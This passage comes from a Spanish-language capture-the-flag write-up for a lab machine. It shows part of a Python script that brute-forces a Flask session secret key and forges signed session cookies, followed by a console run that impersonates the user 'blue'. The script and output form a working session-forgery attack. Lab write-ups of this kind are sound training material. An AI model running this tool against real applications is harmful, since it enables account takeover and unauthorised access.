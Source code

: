```python
        except BadSignature:
            continue
        log.success("Secret key : {}".format(secret))
        return secret

# craft cookie
def create_cookie(secret_key):
    time.sleep(1)
    p = log.progress('Creating new cookie with the payload')
    p.status(args.payload)
    try:
        serializer =  URLSafeTimedSerializer(
                            secret_key=secret_key, 
                            salt='cookie-session', 
                            serializer=TaggedJSONSerializer(), 
                            signer=TimestampSigner, 
                            signer_kwargs={
                                'key_derivation':'hmac',
                                'digest_method': hashlib.sha1
                                }
                            ).dumps(json.loads(args.payload))
        log.success('Cookie : {}'.format(serializer))
    except Exception as e:
        p.failure('{} ocurred'.format(e))

if __name__ == '__main__':
    key = bruteforce_cookie(load_wordlist())
    create_cookie(key)

# References
#---------------------------------------------------
#https://github.com/Paradoxis/Flask-Unsign
#https://github.com/Paradoxis/Flask-Unsign-Wordlist
```

> Puedes encontrar el script y dependencias en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Noter/brute-force_cookie)
{: .prompt-info}

Ahora solo le pasamos los respectivos parámetros y logramos obtener la cookie del usuario `blue`:

```console
❯ python3 brute_force_cookie.py -h
usage: brute_force_cookie.py [-h] -cookie COOKIE -payload PAYLOAD

Brute force attack "Secret key" of a Flask session cookie by default

optional arguments:
  -h, --help        show this help message and exit
  -cookie COOKIE    session cookie to crack
  -payload PAYLOAD  new payload to create a valid session cookie ( '{"key":"value"}' )
❯ python3 brute_force_cookie.py -cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoibWFyc3MifQ.YtOJZw.Fy6nzvuXjW_P69IauxCp1WuHZbU -payload '{"logged_in":true,"username":"blue"}'
[↑] Starting Brute force attack: ********
[*] Payload : {'logged_in': True, 'username': 'marss'}
[+] Secret key : ********
[.] Creating new cookie with the payload: {"logged_in":true,"username":"blue"}
[+] Cookie : eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YtOJ7g.ArNZWl3Agmq5rPAt4QJAz6ybBIs
```
